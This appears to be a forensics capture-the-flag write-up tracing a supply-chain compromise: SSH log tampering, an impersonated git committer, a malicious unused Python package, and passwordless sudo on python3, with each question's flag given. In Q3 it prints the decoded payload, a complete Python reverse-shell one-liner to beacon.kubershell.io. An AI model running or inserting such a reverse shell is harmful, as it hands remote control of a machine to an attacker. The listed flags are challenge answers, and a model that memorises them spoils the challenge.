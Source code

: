 
# Q1 – SSH Root Access & Log Tampering

Upon inspecting the authentication logs, we notice the following:

- A direct root connection was closed.
- An SSH session was subsequently closed.
- The logs indicate **tampering**, suggesting malicious activity.

From this, we obtain the first flag:

```
nexus{192.168.100.13_ssh}
```

---

# Q2 – Suspicious Git Activity in `flask-app`

While exploring the home directory, we find a folder named `test-projects`, which contains several repositories.

- In the `flask-app` repo, we discover suspicious merge activity.
- The suspicious commits and pull requests that are merged  originate from a user named **CyberBug77**.
- The first commit's metadata reveals the author email and username:
  - **Email**: `kamoudz34@gmail.com`
  - **Username**: `achrafness`
- Searching GitHub, we identify that **achrafness** is a real developer and a member of the dev team, indicating impersonation.

From this information, we get the flag:

```
nexus{a30b48a12aedf79decc3809b3d77dc2e3466816e_kamoudz34@gmail.com_achrafness}
```

---

# Q3 – Malicious Python Package

While investigating the attack further:

- We find a package named **`flask_auth_sys`** added as a dependency but **never used** in the code.
- The package was removed from public registries but still exists locally on the system at:

  ```
  /flask-app/penv/lib/python3.12/site-packages/flask_auth_sys/
  ```

- In `main.py`, we discover an encrypted payload using Fernet decryption. Once decrypted, we get a reverse shell command:

  ```python
  python3 -c "import socket,os,pty,subprocess; s=socket.socket(); s.connect(('beacon.kubershell.io',9001)); [os.dup2(s.fileno(),i) for i in (0,1,2)]; subprocess.Popen(['/bin/bash'], preexec_fn=os.setsid)"
  ```

- This confirms a reverse shell to `kubershell.io`.

The constructed flag is:

```
nexus{flask_auth_system_0.0.2_kubershell.io}
```

---

# Q4 – Privilege Escalation & Sudo Misconfiguration

Given that the attacker was able to delete logs, it's clear they achieved **admin access**.


- Checking `/etc/sudoers`, we find that the user **`dev-team`** can execute three binaries using `sudo` **without a password**.
- One of them is:

  ```
  /usr/bin/python3
  ```

- This corresponds to a known MITRE technique:

  - **T1548.003** – *Abuse Elevation Control Mechanism: sudo privilge with no password required like apt, pyrhon3..*

The final flag is:

```
nexus{T1548.003_/usr/bin/python3}
```

---


after answering all challenges you get the flag :nexus{op3r4tion_3nd1aness_initialized_through_5upply_chain!!}